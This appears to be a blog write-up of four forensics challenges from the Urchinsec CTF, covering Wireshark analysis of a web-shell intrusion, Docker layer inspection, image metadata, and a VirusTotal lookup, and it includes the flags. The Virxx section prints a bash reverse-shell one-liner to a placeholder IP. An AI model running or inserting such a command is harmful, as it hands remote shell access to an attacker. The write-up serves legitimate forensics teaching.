 ```yaml
---

title: "URCHINSEC CTF MMXXII Forensics WriteUp"
date: 2022-03-09 01:09:33 +0300
author: oste
image: /assets/img/Posts/urchinsec.png
categories: [CTF-TIME]
tags: [wireshark, docker, dive, virus total, Exiftool, forensics, cyberchef]
---
```


Hey guys and welcome to my blog. Today i will be tackling all challenges i knocked in Urchinsec's CTF. This was a jeopardy type CTF hosted by our competitors, [Urchinsec](https://ctftime.org/team/175663). I majorly focussed on forensics category but attempted some web & OSINT challenges. Special thanks to forensic author, [@tahaafarooq](https://twitter.com/tahaafarooq) and the whole gang for organising the CTF. With that said, lets dive in.

# Streams

> _We were able to capture some packets that we believe to have some information about what the hacker had done after installing a backdoor on our server system , can you figure out what took?_

In this challenge, you are given a packet capture file to figure out what the attacker might have taken. First thing i do when opening a pcap file is look at the `protocal hierarchy statistics` to see what protocols have been used frequently.(_This can be found by navigating to `Statistics > Protocal Hierarchy Statistics`_) In this case, HTTP protocol is a good place to start since traffic is mostly unencrypted. We see that we have some **Line-based text data**. We can right click on it and apply as a filter.

![image](https://user-images.githubusercontent.com/58165365/157321902-267cfd4a-0aeb-4662-82a1-6d5fd677a633.png)

We now have 8 packets which seem to give a clue to what really happened. The attacker abused the `cmd` parameter to execute system commands.

![image](https://user-images.githubusercontent.com/58165365/157341185-23d6f965-5056-49b0-8b4e-4b8fb55f4e73.png)

He run the `id` & `whoami` command to find out who the current user,

![image](https://user-images.githubusercontent.com/58165365/157324053-9c42ee70-ef01-4dce-99e3-07406b5b9c37.png)

`ls` command to list files in the current directory

![image](https://user-images.githubusercontent.com/58165365/157324469-1ee4454b-93a0-48ac-8bd6-7ea69ff647cb.png)

He then read the contents of the flag.

![image](https://user-images.githubusercontent.com/58165365/157320652-b9193064-ed73-425b-8b1e-9c2dc7d68ede.png)

`urchin{wireshark_1s_pr3tty_g00d_f0r_analys!NG}`

# Duck Duck Dock

> _Ashes everywhere , my past has turned into ashes , i'm about to lose it!_

In this challenge, you are given a compressed docker image for analysis. I used a tool called [dive](https://github.com/wagoodman/dive) to analyse the docker image layers before extracting.

> _`dive` is a tool for exploring a docker image, layer contents, and discovering ways to shrink the size of your Docker/OCI image._

You can install the tool with this simple one-liner:

`wget https://github.com/wagoodman/dive/releases/download/v0.10.0/dive_0.10.0_linux_amd64.deb && sudo apt install ./dive_0.10.0_linux_amd64.deb`

Run the following command to start `diving`😅

`dive docker-archive://duckdock.tar`

![image](https://user-images.githubusercontent.com/58165365/157329886-5bfe86d0-77c1-4df1-9f43-e378cfa9ca91.png)

From the screenshot above, we can see the compressed docker image has 4 layers. We have a left and right pane. To navigate to the next layer, hit the down arrow key. To switch to the right pane, hit the Tab Key.
In docker forensics we'd be interested to look at the modified or deleted files. In this case, when you switch to the right side and hit `ctrl+u`, you can see modified files in that layer.(_refer to the screenshot below_)

![image](https://user-images.githubusercontent.com/58165365/157331066-384bb238-c8d9-4359-bc01-9520f8e61759.png)

In this case we see we jacob's home directory containing bash_history.

![image](https://user-images.githubusercontent.com/58165365/156884788-e3378f56-0aca-44a8-8333-21d0250219d3.png)

Third layer had a bash script in the `/opt` directory

![image](https://user-images.githubusercontent.com/58165365/157331861-5d8e1c47-afaf-446f-8104-12b5b1e66739.png)

Last layer had a flag in admin's home directory.

![image](https://user-images.githubusercontent.com/58165365/157332015-ad7fbbbd-e959-487f-af34-67166fe9035c.png)

> _I will give you short cut although its always good doing some manual analysis😉_

You can add `-j` parameter to the previous command to write the layer analysis statistics to a given file.

![image](https://user-images.githubusercontent.com/58165365/157333346-e5733f11-fc0c-4aa8-a761-9f6e09999da5.png)

Thats preety much what we found what when manually diving. Take note of the highlighted layer id's as those are the ones we can dig in and understand more about the image.

Since this is a tar file, you can axtract it using the following command:

`tar xvf duckdock.tar`

![image](https://user-images.githubusercontent.com/58165365/157335423-26a1556b-1733-46e8-b5f0-78950e6b618a.png)

Exploring the layer containing bash history, we can see a user being created and deleted, modification of the bash script as well as a hint.🤔 Looking at flag file in admin's home dir, we get more pewpew's 😅

![image](https://user-images.githubusercontent.com/58165365/157336180-b7cc58b9-b59e-4861-9e9c-1391ea0e8892.png)

![image](https://c.tenor.com/OjUxYLxDHqIAAAAC/finger-guns-michael-scott.gif)

Anyway, looking at the layer containing the bash script, we get the flag as a wierd string.

![image](https://user-images.githubusercontent.com/58165365/157336881-1490a2bd-0ae0-4d8d-8c90-8b12157799d5.png)

Using cyberchef to decode it, we get the flag.

![image](https://user-images.githubusercontent.com/58165365/156886314-3b449fb7-5c9f-431c-b75c-2b072aa6cb03.png)

`urchin{d>cker_f>rensics_is_fun}`

# Meta

> _Metaverse, Metadata, Metaphor, blah blah_

In this challenge you are given an image. First thing that comes to mind is doing some steg analysis. Using `exiftool` , you can look at the file metadata to get potentially useful info. Looking at the Artist parameter, i noted an odd string.

![image](https://user-images.githubusercontent.com/58165365/156885645-3abb4422-c7fd-433e-b8cd-fb1ef5c6278c.png)

Using `cyberchef` you can easily identify the string type using the `Magic` module. From there we learn that its hex encoded. Decoding it gives you a flag.

![image](https://user-images.githubusercontent.com/58165365/156885683-75ce3197-effe-407a-b859-bd33d82afecd.png)

`urchin{metadatas_4re_v3ry_int3r3sting_stuff}`

# Virxx

> _This is madness a 0/56 how how how? can you figure out how this happened?_

In this challenge, you are given a file containing some ASCII text. cating the contents of the flag, you get a bash onliner. Tried even running strings on it but got stuck.😪

```bash
➜  file file
file: ASCII text
➜  wc file
 1  6 50 file
➜  cat file
bash -c "bash -i &>/dev/tcp/10.10.10.10/1234 <&1"
➜  strings file
bash -c "bash -i &>/dev/tcp/10.10.10.10/1234 <&1"

```

It took me a while to figure out how to proceed from here. Got a nudge from my team mate [Winter](https://twitter.com/byronchris25) to think about the name of the challenge. `Virustotal`!!! I uploaded the file to [Virustotal](https://www.virustotal.com/gui/file/c995e0dd367fd8d57ac07f528aeea600179be5bd5e193cd31ecfc723e795e02d) and got the flag.😅

![image](https://user-images.githubusercontent.com/58165365/156892643-f1872a9e-4890-4369-b0e9-5a6893efe42f.png)

`urchin{basic_skill_in_mal_analysis}`

Thats it. Hopefully you learnt a thing or two. Generally the CTF was fun and looking foward to their next CTF coming up in Sept. If you have any questions, feel free to ping me on twitter [@oste_ke](https://twitter.com/oste_ke). Till next time, take care and keep safe. 😎
